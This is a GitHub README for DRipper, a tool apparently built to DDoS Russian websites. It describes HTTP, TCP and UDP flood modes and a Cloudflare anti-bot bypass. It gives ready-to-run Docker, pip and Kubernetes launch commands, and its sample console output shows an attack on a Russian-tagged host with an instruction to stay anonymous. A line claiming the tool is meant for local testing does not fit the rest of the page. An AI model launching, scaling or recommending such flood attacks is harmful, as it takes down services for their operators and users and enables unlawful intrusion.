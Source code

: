 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
──────────────────────────────────── Starting DRipper ────────────────────────────────────
[23:29:24] (1/5) Trying connect to www.localhost.orc:443...                services.py:108
──────────────────────────────────────────────────────────────────────────────────────────


                   ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                   ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                   ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                   ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                   ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                   ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                               v2.3.0

             It is the end user's responsibility to obey all applicable laws.
             It is just like a server testing script and Your IP is visible.
                           Please, make sure you are ANONYMOUS!

                        https://github.com/alexmon1989/russia_ddos

 ────────────────────────────────────────────────────────────────────────────────────────
  Description                         Status
 ────────────────────────────────────────────────────────────────────────────────────────
  Start Time, duration                2022-03-31 23:29:23 - 0:00:33
  Your Country, Public IP             DK   45.*.*.*
  Host Country, IP                    RU   127.0.0.1:443
  HTTP Request                        GET: https://www.localhost.orc:443/
  Attack Method                       http-flood
 ────────────────────────────────────────────────────────────────────────────────────────
  Threads                             2
  vCPU Count                          16
  Socket Timeout (seconds)            1
  Random Packet Length                False
 ────────────────────────────────────────────────────────────────────────────────────────
  CloudFlare DNS Protection           Not protected
  Last Availability Check             23:29:36
  Host Availability                   Accessible in 19 of 21 zones (90%)
 ────────────────────────────────────────────────────────────────────────────────────────
  HTTP-FLOOD Statistics
 ────────────────────────────────────────────────────────────────────────────────────────
  Sent Bytes @ AVG speed                  99.18 MB @ 2.92 MB/s
  Sent Packets @ AVG speed                 232,632 @ 6859 packets/s
  Connections                         success: 4, failed: 0, success rate: 100 %
 ────────────────────────────────────────────────────────────────────────────────────────
  Status Code Distribution            400: 100%
 ────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ────────────────────────────────────────────────────────────────────────────────────────
  [23:29:24]  info   thread-2    Set attack method to http-flood
  [23:29:24]  info   thread-1    Creating HTTP connection...
  [23:29:24]  info   thread-2    Creating HTTP connection...
  [23:29:25]  info   thread-5    Checking host statuses with check-host.net
  [23:29:34]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:36]  info   thread-5    Host statuses updated with check-host.net
  [23:29:43]  warn   thread-2    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-2    Creating HTTP connection...
  [23:29:54]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-1    Creating HTTP connection...

                            Press CTRL+C to interrupt process.

                                    #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.


## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100 -m http-flood
# or
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1 -t 100

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s tcp://127.0.0.1:80 -t 100 -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s udp://127.0.0.1:80 -t 100 -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s udp://127.0.0.1:80 -t 100 -r 1


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -s udp://127.0.0.1:80 -t 100 -r 1
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
